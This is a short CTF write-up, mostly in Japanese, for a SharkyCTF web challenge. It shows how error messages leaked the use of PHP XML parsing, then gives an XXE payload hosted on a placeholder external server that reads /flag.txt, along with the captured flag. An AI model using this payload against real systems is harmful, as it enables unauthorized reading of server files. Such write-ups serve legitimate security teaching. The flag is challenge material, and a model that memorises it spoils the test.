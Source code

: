 # XXExternalXX:Web:70pts
One of your customer all proud of his new platform asked you to audit it. To show him that you can get information on his server, he hid a file "flag.txt" at the server's root.  
[xxexternalxx.sharkyctf.xyz](http://xxexternalxx.sharkyctf.xyz)  

# Solution
アクセスすると以下のようなサイトとなっている。  
Home  
[site1.png](site/site1.png)  
Show stored data  
[site2.png](site/site2.png)  
Show stored dataページに注目するとURLがhttp://xxexternalxx.sharkyctf.xyz/?xml=data.xml となっている。  
http://xxexternalxx.sharkyctf.xyz/?xml= にアクセスすると以下のエラーが出る。  
```text:エラー
Warning: file_get_contents(): Filename cannot be empty in /var/www/html/index.php on line 20

Warning: DOMDocument::loadXML(): Empty string supplied as input in /var/www/html/index.php on line 23

Warning: simplexml_import_dom(): Invalid Nodetype to import in /var/www/html/index.php on line 24

Notice: Trying to get property 'data' of non-object in /var/www/html/index.php on line 25
```
XXEを行いflag.txtを読み出せばよい。  
http://www.xxxxx.xxx/hack.xmlには以下のxmlを設置した。  
```xml
<?xml version="1.0"?><!DOCTYPE root [<!ENTITY satoki SYSTEM '/flag.txt'>]><root><data>&satoki;</data></root>
```
http://xxexternalxx.sharkyctf.xyz/?xml=http://www.xxxxx.xxx/hack.xml にアクセスするとflagが表示される。  
[flag.png](site/flag.png)  

## shkCTF{G3T_XX3D_f5ba4f9f9c9e0f41dd9df266b391447a}